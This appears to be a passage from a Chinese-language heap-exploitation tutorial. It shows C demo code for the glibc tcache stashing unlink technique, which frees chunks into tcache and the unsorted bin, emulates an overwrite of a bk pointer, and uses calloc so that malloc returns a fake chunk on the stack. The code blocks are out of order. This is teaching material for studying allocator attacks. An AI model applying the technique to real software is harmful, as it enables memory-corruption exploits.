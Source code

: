 ```bash
    //now 5 tcache bins
    printf("Then we malloc two chunks to spare space for small bins. After that, we now have 5 tcache bins and 2 small bins\n\n");

    malloc(0x90);
    malloc(0x90);

    printf("Now we emulate a vulnerability that can overwrite the victim->bk pointer into fake_chunk addr: %p.\n\n",(void*)stack_var);

    //change victim->bck
    /*VULNERABILITY*/
    chunk_lis[2][1] = (unsigned long)stack_var;
    /*VULNERABILITY*/

    //trigger the attack
    printf("Finally we alloc a 0x90 chunk with calloc to trigger the attack. The small bin preiously freed will be returned to user, the other one and the fake_chunk were linked into tcache bins.\n\n");

    calloc(1,0x90);

    printf("Now our fake chunk has been put into tcache bin[0xa0] list. Its fd pointer now point to next free chunk: %p and the bck->fd has been changed into a libc addr: %p\n\n",(void*)stack_var[2],(void*)stack_var[4]);

    //malloc and return our fake chunk on stack
    target = malloc(0x90);   

    printf("As you can see, next malloc(0x90) will return the region our fake chunk: %p\n",(void*)target);

    assert(target == &stack_var[2]);
    return 0;
}
```

首先申请 9 个堆块并 free 其中 7 个

```bash
//now we malloc 9 chunks
    for(int i = 0;i < 9;i++){
        chunk_lis[i] = (unsigned long*)malloc(0x90);
    }
    //put 7 chunks into tcache
    printf("Then we free 7 of them in order to put them into tcache. Carefully we didn't free a serial of chunks like chunk2 to chunk9, because an unsorted bin next to another will be merged into one after another malloc.\n\n");

    for(int i = 3;i < 9;i++){
        free(chunk_lis[i]);
    }
    printf("As you can see, chunk1 & [chunk3,chunk8] are put into tcache bins while chunk0 and chunk2 will be put into unsorted bin.\n\n");

    //last tcache bin
    free(chunk_lis[1]);
```
